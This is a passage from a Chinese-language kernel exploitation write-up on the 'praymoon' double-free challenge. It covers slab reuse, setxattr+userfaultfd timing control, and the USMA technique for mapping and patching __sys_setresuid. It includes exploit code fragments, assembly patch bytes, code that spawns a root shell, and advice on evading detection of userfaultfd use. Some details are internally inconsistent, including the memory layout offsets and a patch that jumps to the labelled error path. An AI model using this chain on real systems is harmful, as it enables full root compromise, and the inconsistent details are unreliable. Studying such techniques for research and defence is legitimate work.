   通过`KEYCTL_REVOKE`命令释放`user_key_payload`对象，该对象占用的内存返回SLUB空闲链表。

2. **pg_vec内存分配**：
   通过`setsockopt`系统调用，设置`PACKET_TX_RING`选项，触发`alloc_pg_vec`分配`pg_vec`数组。通过控制参数，使得`pg_vec`数组的大小为512字节，从而重用之前`user_key_payload`的内存。由于SLUB的LIFO特性，只需申请一次即可确保内存重用，无需大量堆喷。

    **alloc_pg_vec函数分析**：

    ```c
    // 分配pg_vec数组内存
    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    if (unlikely(!pg_vec))                              // 检查分配是否成功
        goto out;                                       // 分配失败，跳转到返回

    // 为每个pg_vec元素分配物理页面
    for (i = 0; i < block_nr; i++) {
        pg_vec[i].buffer = alloc_one_pg_vec_page(order); // 分配单个内存块
        if (unlikely(!pg_vec[i].buffer))               // 检查页面分配是否成功
            goto out_free_pgvec;                       // 分配失败，跳转到清理
    }
    ```

    注意，`pg_vec`数组是通过`kcalloc`分配的，而`pg_vec[i].buffer`是通过`alloc_one_pg_vec_page`分配的，后者是分配一个页面的内存。在利用中，通过控制`block_nr`（即`pg_vec`数组的大小）来确保`kcalloc`分配的内存块大小与之前释放的`user_key_payload`内存块大小相同（512字节），从而让`pg_vec`数组占用之前`user_key_payload`的内存。

3. **setxattr缓冲区恢复与二次重叠**：
   再次调用`setxattr`，其临时缓冲区重用刚刚释放的`setxattr`缓冲区（由于LIFO特性，很可能还是同一块内存）。此时，临时缓冲区与`pg_vec`数组重叠。

4. **pg_vec[i].buffer指针重定向**：
    - 再次使用`setxattr+userfaultfd`技术，在`copy_from_user`过程中挂起内核线程。
    - 在挂起期间，修改临时缓冲区的内容，从而修改`pg_vec`数组中的`buffer`指针，使其指向目标内核函数（如`__sys_setresuid`）。
    - 恢复挂起的线程，`setxattr`完成并释放临时缓冲区。

**pg_vec结构分析**：
`pg_vec`是packet socket子系统中的数据结构，用于管理网络数据包缓冲区。根据提供的结构定义：

```c
struct pgv {
    char *buffer;  // 指向字符缓冲区的指针
};
```

通过控制`buffer`指针，可以控制后续`packet_mmap`操作映射的内存区域。这个简单的结构使得指针控制相对直接，只需要修改`buffer`指针的值即可改变后续的内存访问目标。

**关键技术**：
内存重叠构造`pg_vec`与`setxattr`缓冲区的重叠。指针控制通过内存重叠修改`pg_vec[i].buffer`指针。目标选择将指针指向关键内核函数`__sys_setresuid`。这些技术的组合使用实现了对关键数据结构的精确控制。

**内存状态演变**：

```
时间线:
t0: user_key_payload占用内存
t1: 释放user_key_payload → 内存状态: 空闲
t2: pg_vec分配 → 内存状态: [pg_vec结构]
t3: 释放setxattr缓冲区 → 内存状态: 空闲(但setxattr可能仍引用)
t4: 再次分配setxattr缓冲区 → 内存状态: [setxattr缓冲区] 与 [pg_vec]重叠
t5: 通过setxattr修改pg_vec[i].buffer指针
```

#### 2-3-5. USMA技术与内核代码修改

**技术目标**：
通过USMA（User-Space-Mapping-Attack）技术，将`pg_vec[i].buffer`指针指向的内核代码页面映射到用户空间，直接修改`__sys_setresuid`函数的权限检查代码，绕过权限验证。

**实现步骤**：

1. **内核代码页面映射**：
   通过`packet_mmap`系统调用建立内存映射，将`pg_vec[i].buffer`指向的页面（即`__sys_setresuid`函数所在页面）映射到用户空间。映射后的用户空间地址具有读写权限，可以访问内核代码，为后续的代码修改创造了条件。

2. **目标函数分析**：
   `__sys_setresuid`是系统调用`setresuid`的内核实现，包含权限检查逻辑。需要定位并修改权限检查的汇编指令，常见的权限检查模式包括条件跳转指令，需要将其修改为无操作指令或无条件跳转，以绕过权限验证。

3. **指令级代码修改**：
   在用户空间分析映射的内核代码页面，定位`__sys_setresuid`函数中的权限检查指令。常见的权限检查模式为条件跳转，修改策略包括将条件跳转改为无条件跳转或NOP指令。确保修改后的指令长度与原始指令相同，避免破坏函数结构，保持代码的完整性和正确性。

4. **修改验证**：
   反汇编修改后的代码，确保指令序列正确。测试修改是否影响其他功能，确保栈平衡和寄存器使用不受影响。通过验证确保修改的正确性和有效性，为后续的权限提升验证奠定基础。

**USMA技术原理**：
USMA技术利用`packet_mmap`将内核内存映射到用户空间的特性。`packet_mmap`允许用户空间直接访问内核网络缓冲区，通过控制`pg_vec[i].buffer`指针，可以指定映射的内核地址。如果该地址指向内核代码页面，则用户空间可以获得内核代码的访问权限，某些情况下映射的页面可能具有写权限，允许直接修改内核代码。这种技术绕过了传统的内核保护机制，实现了对内核代码的直接访问和修改。

**关键技术**：
内存映射控制通过`packet_mmap`控制内核地址空间映射。代码定位在内核镜像中定位目标函数和指令。指令修补精确修改汇编指令，绕过权限检查。并发安全避免修改过程中其他CPU执行被修改代码。这些技术的组合使用实现了内核代码的安全修改。

**代码修改示例**：
原始权限检查代码：

```asm
; 在__sys_setresuid函数中
ffffffff810a1234: 85 c0              test   eax, eax
ffffffff810a1236: 0f 85 34 00 00 00  jne    ffffffff810a1270  ; 跳转到错误处理
```

修改后的代码：

```asm
; 修改为无条件继续执行
ffffffff810a1234: 90                 nop
ffffffff810a1235: 90                 nop
ffffffff810a1236: e9 35 00 00 00     jmp    ffffffff810a1270  ; 直接跳过错误处理
; 或者修改为无条件跳转
ffffffff810a1234: eb 3a              jmp    ffffffff810a1270  ; 直接跳转到设置uid的代码
```

**修改验证步骤**：
读取修改后的指令，确认修改正确。测试`setresuid(0,0,0)`系统调用，验证是否绕过权限检查。检查返回值，确认系统调用成功。验证进程权限，确认euid变为0。这些验证步骤确保修改的有效性和正确性。

#### 2-3-6. 权限提升验证

**技术目标**：
通过实际的系统调用验证内核代码修改效果，确认权限提升成功，获取root shell。这是技术验证的最终阶段，验证整个利用链的完整性和有效性。

**实现步骤**：

1. **系统调用测试**：
   调用`setresuid(0, 0, 0)`尝试将进程的real、effective和saved user ID都设置为0（root）。如果代码修改成功，这个调用应该绕过所有权限检查，检查系统调用的返回值，0表示成功，负数表示错误，为权限提升验证提供初步结果。

2. **权限状态验证**：
   调用`geteuid()`获取当前进程的有效用户ID，调用`getuid()`获取当前进程的真实用户ID。预期结果为两者都应返回0，如果返回0，表示权限提升成功，验证了内核代码修改的有效性。

3. **root权限操作测试**：
   尝试执行需要root权限的操作，例如打开特权文件、修改系统配置、加载内核模块等。最常见的测试是执行`/bin/sh`或`/bin/bash`获取root shell，这是权限提升的最终验证。

4. **稳定性验证**：
   验证系统稳定性，确保修改没有导致内核崩溃，检查其他系统功能是否正常，确保修改是临时的，不会永久影响系统。稳定性验证是技术操作的重要环节，确保系统的可靠性和安全性。

**验证代码示例**：

```c
// 测试权限提升
printf("Attempting privilege escalation...\n");

// 尝试设置root权限
if (setresuid(0, 0, 0) == 0) {
    printf("setresuid succeeded!\n");

    // 验证当前权限
    uid_t current_euid = geteuid();
    uid_t current_uid = getuid();

    printf("Current EUID: %d\n", current_euid);
    printf("Current UID: %d\n", current_uid);

    if (current_euid == 0 && current_uid == 0) {
        printf("Privilege escalation successful!\n");

        // 获取root shell
        printf("Spawning root shell...\n");
        system("/bin/sh");

        return 0;
    } else {
        printf("Privilege escalation failed: not root\n");
        return -1;
    }
} else {
    printf("setresuid failed: %s\n", strerror(errno));
    return -1;
}
```

**完整利用链验证**：
内存操作验证确认所有内存操作正确完成，无内存泄漏或损坏。地址计算验证确认KASLR绕过计算正确，目标地址准确。代码修改验证确认内核代码修改正确，权限检查被绕过。权限提升验证确认进程成功获取root权限。系统稳定性确认系统运行稳定，无崩溃或异常。这些验证步骤确保技术操作的完整性和有效性。

**错误处理与回退**：
如果权限提升失败，分析失败原因，可能的原因包括内核代码修改不正确、目标函数地址计算错误、系统调用被其他安全机制拦截、并发问题导致修改不完整。根据失败原因调整利用参数或策略，实现错误恢复和优化。

**利用成功标志**：
`setresuid(0,0,0)`返回0，`geteuid()`返回0，能够执行需要root权限的操作，成功获取root shell。这些标志确认技术操作的成功完成。

**技术验证的意义**：
成功验证表明Double Free漏洞可以被可靠利用，通过内存操作可以绕过KASLR，通过USMA技术可以修改内核代码，完整的权限提升链是可行的，现有安全机制存在局限性。这些验证结果为内核安全研究和防护提供了重要的参考和依据。

### 2-4. setxattr+userfaultfd技术原理分析

#### 2-4-1. 技术基本原理

`setxattr+userfaultfd`技术是一种利用用户空间页面错误处理机制实现精确内存控制的技术。其核心思想是通过`userfaultfd`系统调用监控特定内存区域，当内核尝试访问该区域时触发页面错误，从而挂起内核线程，为用户空间程序提供修改内存的机会。

**技术组件**：

1. **userfaultfd**：Linux内核提供的用户空间页面错误处理机制
2. **setxattr**：扩展文件属性系统调用，内部使用`copy_from_user`从用户空间复制数据
3. **内存监控**：将特定内存页面注册到`userfaultfd`进行监控

**技术工作流程**：


```mermaid
sequenceDiagram
    participant User as 用户空间
    participant Kernel as 内核空间
    participant UFFD as userfaultfd监控

    User->>User: 1. 分配两页连续内存page0和page1
    User->>UFFD: 2. 注册userfaultfd监控page1
    User->>Kernel: 3. 调用setxattr(value指向page0末尾)

    Kernel->>Kernel: 4. 分配临时缓冲区(与目标对象重叠)
    Kernel->>User: 5. copy_from_user复制page0的0x20字节
    Kernel->>UFFD: 6. 尝试访问page1，触发缺页异常
    UFFD->>UFFD: 7. 内核线程被挂起

    Note over User: 8. 确认目标对象的datalen已被修改

    User->>UFFD: 9. 处理缺页异常，恢复内核线程
    UFFD->>Kernel: 10. 继续copy_from_user，复制page1内容
    Kernel->>Kernel: 11. setxattr完成，释放临时缓冲区
```

#### 2-4-2. 内存布局与数据构造

**内存准备**：
在用户空间分配两页连续内存（page0和page1），每页大小为4096字节。内存布局如下：

```
内存布局:
+-------------------+ 0x0000
|     page0         | 前4024字节为任意数据
+-------------------+ 0x0FB8
| 恶意数据构造区    | 最后0x20字节(0x0FB8-0x0FD8)
+-------------------+ 0x0FD8
|     page1         | 被userfaultfd监控
+-------------------+ 0x1FD8
```

**恶意数据构造**：
在page0的最后0x20字节处构造恶意数据，这个位置恰好是`setxattr`的`value`参数指向的位置。构造的数据包含伪造的`user_key_payload`结构，其中关键修改`datalen`字段：

```c
// 构造恶意数据结构
struct malicious_data {
    struct rcu_head rcu;        // 保持原样
    unsigned short datalen;      // 修改为0x2000，实现越界读取
    char padding[14];           // 填充，使总大小为0x20字节
};
```

**userfaultfd注册**：
将page1页面注册到`userfaultfd`进行监控，使得当内核尝试访问page1时会触发页面错误：

```c
// 注册userfaultfd监控page1
struct uffdio_register uffdio_register;
uffdio_register.range.start = (unsigned long)page1_addr;
uffdio_register.range.len = PAGE_SIZE;
uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
ioctl(uffd, UFFDIO_REGISTER, &uffdio_register);
```

#### 2-4-3. 内核执行流程控制

**setxattr系统调用流程**：
当调用`setxattr`时，内核执行以下流程：

1. **分配临时缓冲区**：`setxattr`在内部分配临时缓冲区，由于Double Free，这个缓冲区与`user_key_payload`对象重叠
2. **copy_from_user调用**：内核调用`copy_from_user`从用户空间复制数据到临时缓冲区
3. **数据复制过程**：
    - 从`value`参数指向的地址（page0末尾0x20字节）开始复制
    - 首先复制page0的最后0x20字节，其中包含修改后的`datalen`字段
    - 此时临时缓冲区（即`user_key_payload`对象）的`datalen`字段已被修改
    - 继续复制时，需要访问page1的内容
4. **触发页面错误**：当尝试访问page1时，由于page1被`userfaultfd`监控，触发缺页异常
5. **内核线程挂起**：触发缺页异常的线程被挂起，控制权返回用户空间

**执行挂起的关键时机**：
在`copy_from_user`复制page0的最后0x20字节后，临时缓冲区（即目标对象）已经被修改。此时由于需要继续复制page1的内容而触发页面错误，内核线程被挂起。这个时机非常关键，因为它确保：

1. 目标对象的修改已经完成
2. 内核线程被挂起，不会继续执行到`kfree`释放临时缓冲区
3. 用户空间获得控制权，可以执行其他操作

#### 2-4-4. 技术优势与特点

**精确的时序控制**：
`setxattr+userfaultfd`技术提供了前所未有的时序控制精度。通过控制`copy_from_user`的复制过程，可以精确控制何时修改目标对象，何时挂起内核线程。这种精度是传统竞态条件利用无法达到的。

**确定性的执行**：
传统利用通常依赖竞态条件，成功率受系统负载、调度等因素影响。而`setxattr+userfaultfd`技术通过同步机制消除了不确定性，确保每次执行都能达到预期状态。

**绕过安全机制**：
该技术可以绕过多种安全机制：

1. **SLAB_FREELIST_RANDOM**：不依赖freelist顺序，通过LIFO特性确保内存重用
2. **SLAB_FREELIST_HARDENED**：不修改freelist元数据，只修改对象内容
3. **KASLR**：通过信息泄露计算内核地址

**通用性强**：
该技术不仅适用于praymoon漏洞，还可以应用于其他需要精确控制内存状态和时序的场景。只要满足以下条件：

1. 存在UAF或Double Free漏洞
2. 目标对象可以被其他内核对象重用
3. 有系统调用涉及`copy_from_user`操作

#### 2-4-5. 在praymoon利用中的具体应用

**第一次应用：修改user_key_payload的datalen字段**

1. **内存状态准备**：
    - 通过Double Free使`user_key_payload`与`setxattr`临时缓冲区重叠
    - 准备两页内存，在page0末尾构造恶意数据

2. **触发修改**：
    - 调用`setxattr`，`value`参数指向page0末尾
    - `copy_from_user`复制page0的最后0x20字节，修改`user_key_payload`的`datalen`字段
    - 尝试复制page1时触发缺页异常，内核线程被挂起

3. **验证与继续**：
    - 验证`user_key_payload`的`datalen`已被修改
    - 处理缺页异常，恢复内核线程
    - `setxattr`完成，释放临时缓冲区

**第二次应用：修改pg_vec[i].buffer指针**

1. **内存状态准备**：
    - 释放`user_key_payload`，分配`pg_vec`数组
    - 再次调用`setxattr`，临时缓冲区与`pg_vec`数组重叠
    - 重新准备两页内存，在page0末尾构造指向目标函数的指针

2. **触发修改**：
    - 调用`setxattr`，`value`参数指向包含目标地址的page0末尾
    - `copy_from_user`复制数据，修改`pg_vec[i].buffer`指针
    - 尝试复制page1时触发缺页异常，内核线程被挂起

3. **完成操作**：
    - 验证`pg_vec[i].buffer`指针已被修改
    - 处理缺页异常，恢复内核线程
    - `setxattr`完成，释放临时缓冲区

#### 2-4-6. 技术限制与应对策略

**权限要求**：
`userfaultfd`需要`CAP_SYS_PTRACE`能力或用户命名空间权限。在容器环境中，如果启用了用户命名空间，普通用户可能具有使用`userfaultfd`的权限。

**内核版本限制**：
较新的内核版本对`userfaultfd`的使用增加了限制，特别是非特权用户使用`userfaultfd`的能力。在利用时需要检查内核版本和配置。

**检测与防御**：
安全监控工具可能检测`userfaultfd`的异常使用。为规避检测，可以：

1. 最小化`userfaultfd`的使用时间
2. 使用后立即清理相关资源
3. 模拟正常使用模式

**稳定性考虑**：
频繁触发页面错误可能影响系统性能，甚至导致系统不稳定。在利用时应控制页面错误触发频率，避免对系统造成过大影响。

#### 2-4-7. 技术演进与变种

**多阶段控制**：
在praymoon利用中，`setxattr+userfaultfd`技术被使用了两次，分别修改不同的目标。这展示了该技术的灵活性和可重复性。

**与其他技术结合**：
该技术可以与多种其他技术结合：

1. **SLUB LIFO特性**：确保内存重用的可预测性
2. **KASLR绕过**：通过信息泄露获取内核地址
3. **USMA技术**：实现内核代码修改

**通用化模式**：
`setxattr+userfaultfd`技术可以抽象为通用模式：

1. 准备监控内存区域
2. 触发系统调用，在`copy_from_user`过程中修改目标
3. 通过页面错误挂起线程，控制执行流程
4. 恢复执行，完成操作

这种模式可以应用于多种漏洞利用场景，为内核漏洞利用提供了新的思路和方法。

#### 2-4-8. 内核实现细节与安全影响

**内核实现原理**：
`setxattr+userfaultfd`技术的核心在于Linux内核的内存管理机制和系统调用实现。当`copy_from_user`尝试访问被`userfaultfd`监控的内存区域时，会触发缺页异常，内核的缺页异常处理程序会检查该区域是否被`userfaultfd`监控，如果是，则将当前线程挂起，并通过`userfaultfd`向用户空间发送事件。用户空间处理完事件后，可以恢复内核线程的执行。这种机制本意是为了支持用户空间页交换、内存迁移等高级功能，但在此场景下被用于精确控制内核执行流程。

**内核源码分析**：
在Linux内核中，`copy_from_user`函数最终会调用`__copy_from_user`，当访问用户空间内存时，如果目标页面不在内存中，会触发缺页异常。缺页异常处理程序`do_page_fault`会调用`handle_mm_fault`来处理缺页。如果该页面被注册到`userfaultfd`，内核会将当前进程挂起，并通过`userfaultfd`的文件描述符通知用户空间。用户空间可以通过`read`系统调用从`userfaultfd`文件描述符读取事件，然后决定如何处理这个缺页。

**安全影响评估**：
`setxattr+userfaultfd`技术暴露了内核安全模型中的一些深层次问题。传统的内核安全模型假设用户空间和内核空间是严格隔离的，用户空间无法直接影响内核的执行流程。但`userfaultfd`机制为用户空间提供了干预内核内存访问的能力，打破了这种隔离。虽然`userfaultfd`的设计初衷是合法的，但在特定条件下，它可以被用于控制内核执行流程，实现精确的内存操作。

**防御措施**：
为了防御`setxattr+userfaultfd`技术，可以采取以下措施：

1. **限制`userfaultfd`权限**：在内核配置中限制非特权用户使用`userfaultfd`
2. **监控异常使用模式**：通过安全模块监控异常的`userfaultfd`使用模式
3. **加强内存隔离**：在关键系统调用中避免使用可能被用户空间控制的缓冲区
4. **引入随机延迟**：在内存复制操作中引入微小随机延迟，增加利用难度

**技术发展趋势**：
`setxattr+userfaultfd`技术代表了现代内核漏洞利用的一个重要趋势：从传统的竞态条件利用转向基于同步机制的精确控制。这种技术不依赖于时间竞争，而是利用内核提供的合法机制来控制执行流程，因此具有更高的成功率和可靠性。随着内核安全机制的不断加强，未来可能会出现更多类似的技术，利用内核的合法功能来实现非法的操作。

**对内核安全的启示**：
`setxattr+userfaultfd`技术的成功利用表明，内核安全不仅需要防止非法的内存访问，还需要防止合法的功能被恶意使用。内核开发者需要在功能设计和安全考虑之间找到平衡，确保内核提供的功能不会被用于恶意利用系统。同时，安全研究人员需要不断探索新的利用面，发现潜在的安全风险，推动内核安全的持续改进。

### 2-5. 技术总结

praymoon漏洞利用链是一个从简单Double Free漏洞到完整权限提升的复杂技术验证过程，它从驱动程序中的简单Double Free漏洞出发，通过SLUB分配器的LIFO特性实现内存重用，利用`setxattr+userfaultfd`技术实现精确的内存状态控制和时序同步，通过信息泄露绕过KASLR防护，再通过二次内存重用和指针重定向控制`pg_vec`结构，最后利用USMA技术实现内核代码修改，成功绕过权限检查获取root权限。整个利用链展示了现代内核漏洞利用的高度复杂性和技术深度，结合了内存管理特性、时序控制、信息泄露、代码修改等多种技术，成功绕过了包括KASLR、SLAB_FREELIST_RANDOM在内的多种安全机制，揭示了内核安全防护在面对复杂组合利用时的局限性，为内核安全研究和防护提供了重要的技术参考和实践经验。

## 3. USMA技术深度分析

### 3-1. 技术定义与背景

**[USMA（User-Space-Mapping-Attack）](https://vul.360.net/archives/391)** 是一种基于Linux内核packet socket模块内存映射机制的创新技术。该技术利用内核网络子系统中的共享内存环形缓冲区机制，通过控制关键数据结构指针，将指定的内核内存区域直接映射到用户空间地址空间，从而实现用户态进程对内核内存的直接访问与修改。

**技术发展背景**：

- 传统内核漏洞利用依赖于复杂的控制流劫持技术，如ROP、JOP等
- 现代防护机制（CFI、KASLR、SMEP/SMAP）显著增加了传统利用难度
- Packet Socket作为网络性能优化机制，提供了内核与用户空间高效数据交换通道
- 该机制的某些设计特性为绕过现代防护提供了新的可能性

### 3-2. 核心原理与工作流程

**核心原理**：

USMA技术的核心在于利用packet socket模块中的共享内存环形缓冲区机制。该机制原本设计用于高效传输网络数据包，减少内核与用户空间之间的数据拷贝开销。通过特定的内存操作漏洞，可以控制环形缓冲区中的关键指针，将其重定向到任意内核内存区域，进而通过标准的mmap系统调用将目标内核页面映射到用户空间。


```mermaid
mindmap
  root(USMA技术核心原理)
    技术基础
      Packet Socket内存映射机制
      环形缓冲区共享内存
      内核页面映射到用户空间
    关键技术
      指针控制与重定向
      利用UAF等内存漏洞
      控制pg_vec.buffer指针
    实现路径
      合法系统调用路径
      mmap触发packet_mmap
      vm_insert_page建立映射
    技术优势
      绕过控制流完整性检查
      利用合法内核接口
      隐蔽性高
```

**工作流程概述**：

1. **环境初始化**：创建packet socket，配置环形缓冲区参数
2. **内存控制**：利用内存漏洞控制环形缓冲区中的关键指针
3. **指针重定向**：将缓冲区指针指向目标内核内存区域
4. **映射建立**：通过mmap系统调用触发内核映射机制
5. **内存访问**：在用户空间直接访问和修改内核内存
6. **功能验证**：验证修改效果，实现权限提升或其他目标

### 3-3. Packet Socket内存映射机制

#### 3-3-1. 内存分配机制分析

**底层内存分配函数**：

`__get_free_pages`函数是内核中用于分配连续物理页面的核心函数，在packet socket环形缓冲区的内存分配过程中起到关键作用：

```c
/*
 * 通用辅助函数。由于返回的地址无法表示高端内存页面，因此切勿与__GFP_HIGHMEM一起使用。
 * 如果需要访问高端内存，请使用alloc_pages然后进行kmap映射。
 */
unsigned long __get_free_pages(gfp_t gfp_mask, unsigned int order)
{
    struct page *page;                                  // 页面结构指针

    // 分配物理页面，清除__GFP_HIGHMEM标志以确保返回低端内存地址
    page = alloc_pages(gfp_mask & ~__GFP_HIGHMEM, order);
    if (!page)                                          // 检查页面分配是否成功
        return 0;                                       // 分配失败，返回0
    return (unsigned long) page_address(page);          // 返回页面的虚拟地址
}
EXPORT_SYMBOL(__get_free_pages);                        // 导出符号供其他模块使用
```

**函数功能说明**：

1. **参数说明**：
    - `gfp_mask`：分配标志，控制分配行为（如GFP_KERNEL表示内核内存分配）
    - `order`：分配阶数，决定分配页面数量（$$2^\text{order}$$个页面）

2. **工作原理**：
    - 通过`alloc_pages`函数分配物理页面
    - 清除`__GFP_HIGHMEM`标志，确保返回低端内存地址
    - 使用`page_address`将页面结构转换为虚拟地址
    - 返回可用于直接访问的虚拟地址

3. **使用限制**：
    - 不能用于分配高端内存（highmem）页面
    - 如果需要高端内存，应使用`alloc_pages`配合`kmap`函数
    - 分配的页面是连续的物理内存区域

**在packet socket中的应用**：

在packet socket的环形缓冲区分配过程中，`alloc_one_pg_vec_page`函数会调用`__get_free_pages`来分配物理页面：

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
    char *buffer;                                       // 缓冲区指针
    gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |         // 分配标志：内核内存、复合页
                      __GFP_ZERO | __GFP_NOWARN |       // 清零、不警告
                      __GFP_NORETRY;                    // 不重试

    // 首先尝试通过__get_free_pages分配连续物理页面
    buffer = (char *) __get_free_pages(gfp_flags, order);
    if (buffer)                                         // 检查分配是否成功
        return buffer;                                  // 成功，返回缓冲区地址

    // __get_free_pages失败，回退到vmalloc
    buffer = vzalloc(array_size((1 << order), PAGE_SIZE)); // 分配虚拟连续内存
    if (buffer)                                         // 检查分配是否成功
        return buffer;                                  // 成功，返回缓冲区地址

    // vmalloc失败，尝试允许回收内存
    gfp_flags &= ~__GFP_NORETRY;                        // 允许重试
    buffer = (char *) __get_free_pages(gfp_flags, order); // 再次尝试分配
    if (buffer)                                         // 检查分配是否成功
        return buffer;                                  // 成功，返回缓冲区地址

    return NULL;                                        // 完全失败，返回NULL
}
```

#### 3-3-2. 核心代码分析

**setsockopt系统调用处理**：

当用户空间通过setsockopt设置环形缓冲区参数时，内核执行packet_setsockopt函数：

```c
static int packet_setsockopt(struct socket *sock, int level, int optname,
                             sockptr_t optval, unsigned int optlen)
{
    struct sock *sk = sock->sk;                          // 获取socket对应的sock结构
    struct packet_sock *po = pkt_sk(sk);                 // 转换为packet_sock结构
    int ret;                                             // 返回值变量

    if (level != SOL_PACKET)                             // 检查选项层级是否为packet层级
        return -ENOPROTOOPT;                             // 非packet层级，返回协议不支持错误

    switch (optname) {                                   // 根据选项名称进行分发处理
    case PACKET_RX_RING:                                 // 设置接收环形缓冲区
    case PACKET_TX_RING:                                 // 设置发送环形缓冲区
    {
        union tpacket_req_u req_u;                       // 请求参数联合体，支持不同版本
        int len;                                         // 参数长度变量

        lock_sock(sk);                                   // 锁定socket，防止并发访问
        switch (po->tp_version) {                        // 根据TPACKET版本确定参数长度
        case TPACKET_V1:                                 // TPACKET版本1
        case TPACKET_V2:                                 // TPACKET版本2
            len = sizeof(req_u.req);                     // 使用传统req结构
            break;
        case TPACKET_V3:                                 // TPACKET版本3
        default:                                         // 默认版本
            len = sizeof(req_u.req3);                    // 使用扩展的req3结构
            break;
        }
        if (optlen < len) {                              // 检查用户提供的参数长度是否足够
            ret = -EINVAL;                               // 参数长度不足，返回无效参数错误
        } else {
            if (copy_from_sockptr(&req_u.req, optval, len))  // 从用户空间拷贝参数
                ret = -EFAULT;                           // 拷贝失败，返回默认错误
            else
                // 调用packet_set_ring函数设置环形缓冲区
                ret = packet_set_ring(sk, &req_u, 0, optname == PACKET_TX_RING);
        }
        release_sock(sk);                                // 释放socket锁
        return ret;                                      // 返回操作结果
    }
    // 其他选项处理代码省略...
    default:                                             // 未知选项处理
        return -ENOPROTOOPT;                            // 返回协议不支持错误
    }
}
```

**环形缓冲区设置核心函数**：

packet_set_ring函数是设置环形缓冲区的核心，负责分配和管理环形缓冲区内存：

```c
static int packet_set_ring(struct sock *sk, union tpacket_req_u *req_u,
                           int closing, int tx_ring)
{
    struct pgv *pg_vec = NULL;                          // pg_vec数组指针，初始化为NULL
    struct packet_sock *po = pkt_sk(sk);                // 获取packet_sock结构
    unsigned long *rx_owner_map = NULL;                 // 接收者映射位图指针
    int was_running, order = 0;                         // 运行状态和分配阶数
    struct packet_ring_buffer *rb;                      // 环形缓冲区指针
    struct sk_buff_head *rb_queue;                      // 缓冲区队列指针
    __be16 num;                                         // 原始设备号
    int err;                                            // 错误码变量
    struct tpacket_req *req = &req_u->req;              // 获取请求参数（简化处理）

    // 选择接收或发送环形缓冲区
    rb = tx_ring ? &po->tx_ring : &po->rx_ring;         // 根据方向选择环形缓冲区
    rb_queue = tx_ring ? &sk->sk_write_queue : &sk->sk_receive_queue;  // 选择对应队列

    err = -EBUSY;                                       // 设置默认错误码为设备忙
    if (!closing) {                                     // 如果不是关闭操作
        if (atomic_read(&po->mapped))                   // 检查是否已有内存映射
            goto out;                                   // 已有映射，跳转到结束
        if (packet_read_pending(rb))                    // 检查是否有未处理数据
            goto out;                                   // 有待处理数据，跳转到结束
    }

    if (req->tp_block_nr) {                             // 如果请求的块数量大于0
        unsigned int min_frame_size;                    // 最小帧大小变量

        // 参数验证：确保缓冲区尚未分配
        err = -EBUSY;
        if (unlikely(rb->pg_vec))                       // 检查pg_vec是否已分配
            goto out;                                   // 已分配，返回设备忙错误

        // 根据TPACKET版本设置头部长度
        switch (po->tp_version) {
        case TPACKET_V1:                                // TPACKET版本1
            po->tp_hdrlen = TPACKET_HDRLEN;             // 设置头部长度为V1版本
            break;
        case TPACKET_V2:                                // TPACKET版本2
            po->tp_hdrlen = TPACKET2_HDRLEN;            // 设置头部长度为V2版本
            break;
        case TPACKET_V3:                                // TPACKET版本3
            po->tp_hdrlen = TPACKET3_HDRLEN;            // 设置头部长度为V3版本
            break;
        }

        // 参数验证：基本参数检查
        err = -EINVAL;                                  // 设置错误码为无效参数
        if (unlikely((int)req->tp_block_size <= 0))     // 检查块大小是否有效
            goto out;                                   // 无效块大小，返回错误
        if (unlikely(!PAGE_ALIGNED(req->tp_block_size))) // 检查块大小是否页面对齐
            goto out;                                   // 未对齐，返回错误

        // 计算最小帧大小并验证帧大小参数
        min_frame_size = po->tp_hdrlen + po->tp_reserve; // 计算最小帧大小
        if (unlikely(req->tp_frame_size < min_frame_size)) // 检查帧大小是否足够
            goto out;                                   // 帧大小太小，返回错误
        if (unlikely(req->tp_frame_size & (TPACKET_ALIGNMENT - 1))) // 检查帧大小对齐
            goto out;                                   // 未对齐，返回错误

        // 计算帧相关参数
        rb->frames_per_block = req->tp_block_size / req->tp_frame_size; // 计算每块帧数
        if (unlikely(rb->frames_per_block == 0))        // 检查每块帧数是否有效
            goto out;                                   // 无效帧数，返回错误
        if (unlikely(rb->frames_per_block > UINT_MAX / req->tp_block_nr)) // 检查溢出
            goto out;                                   // 可能溢出，返回错误
        if (unlikely((rb->frames_per_block * req->tp_block_nr) != req->tp_frame_nr))
            goto out;                                   // 帧数不匹配，返回错误

        // 分配内存
        err = -ENOMEM;                                  // 设置错误码为内存不足
        order = get_order(req->tp_block_size);          // 计算页面分配阶数
        pg_vec = alloc_pg_vec(req, order);              // 分配pg_vec数组和页面
        if (unlikely(!pg_vec))                          // 检查分配是否成功
            goto out;                                   // 分配失败，跳转到结束

        // 版本特定处理
        switch (po->tp_version) {
        case TPACKET_V3:                                // TPACKET版本3处理
            if (!tx_ring) {                             // 接收环形缓冲区
                init_prb_bdqc(po, rb, pg_vec, req_u);   // 初始化PRB块描述符队列控制
            } else {                                    // 发送环形缓冲区
                struct tpacket_req3 *req3 = &req_u->req3; // 获取V3请求参数
                // V3发送环形缓冲区不支持某些特性
                if (req3->tp_retire_blk_tov || req3->tp_sizeof_priv || req3->tp_feature_req_word) {
                    err = -EINVAL;                      // 不支持的特性，返回无效参数
                    goto out_free_pg_vec;               // 跳转到清理
                }
            }
            break;
        default:                                        // V1/V2版本处理
            if (!tx_ring) {                             // 接收环形缓冲区
                // 分配接收者映射位图
                rx_owner_map = bitmap_alloc(req->tp_frame_nr, GFP_KERNEL | __GFP_NOWARN | __GFP_ZERO);
                if (!rx_owner_map)                      // 检查分配是否成功
                    goto out_free_pg_vec;               // 分配失败，跳转到清理
            }
            break;
        }
    } else {                                            // 请求块数为0的情况
        err = -EINVAL;                                  // 设置错误码为无效参数
        if (unlikely(req->tp_frame_nr))                 // 检查是否有帧请求
            goto out;                                   // 有帧请求但无块，返回错误
    }

    // 分离socket与网络
    spin_lock(&po->bind_lock);                          // 获取绑定锁
    was_running = packet_sock_flag(po, PACKET_SOCK_RUNNING); // 检查是否正在运行
    num = po->num;                                      // 保存当前设备号
    if (was_running) {                                  // 如果正在运行
        WRITE_ONCE(po->num, 0);                         // 清空设备号
        __unregister_prot_hook(sk, false);              // 注销协议钩子
    }
    spin_unlock(&po->bind_lock);                        // 释放绑定锁

    synchronize_net();                                  // 同步网络操作，确保无并发

    // 交换缓冲区
    err = -EBUSY;                                       // 设置错误码为设备忙
